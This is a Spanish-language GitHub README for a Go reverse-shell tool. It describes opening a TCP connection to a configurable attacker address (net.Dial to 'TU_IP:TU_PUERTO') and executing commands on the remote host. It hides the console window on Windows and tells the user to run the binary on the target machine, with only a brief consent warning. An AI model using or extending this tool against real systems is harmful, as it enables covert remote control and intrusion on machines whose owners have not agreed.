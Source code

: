 # Reverse Shell en Go

Este es un programa simple de reverse shell escrito en Go que establece una conexión TCP y ejecuta comandos en una máquina remota. 

# Características

- **Conexión TCP**: Establece una conexión TCP con la dirección IP y el puerto especificados.

- **Ejecución de Comandos Remotos**: Ejecuta comandos en la máquina remota a través de la conexión TCP.

- **Ocultar Ventana en Windows**: En sistemas operativos Windows, la ventana de la consola se oculta utilizando `syscall.SysProcAttr{HideWindow: true}`.

# Uso

1. Clona el repositorio:

    ```bash
    git clone https://github.com/tuusuario/reverse-shell-go.git
    cd reverse-shell-go
    ```

2. Edita el archivo `main.go` y ajusta la dirección IP y el puerto según tus necesidades.

    ```go
    c, _ := net.Dial("tcp", "TU_IP:TU_PUERTO")
    ```

3. Compila el código:

    ```bash
    go build main.go
    ```

4. Ejecuta el programa en la máquina de destino:

    ```bash
    ./main
    ```

5. En tu máquina local, utiliza un programa cliente para conectarte al servidor y ejecutar comandos.

# Advertencia

Este código permite la ejecución remota de comandos en una máquina y debe usarse con extrema precaución. No lo utilices en entornos no seguros o sin el consentimiento del propietario del sistema.

# Contribuciones

Las contribuciones son bienvenidas. Si encuentras algún problema o tienes sugerencias de mejora, por favor, crea un issue o envía un pull request.

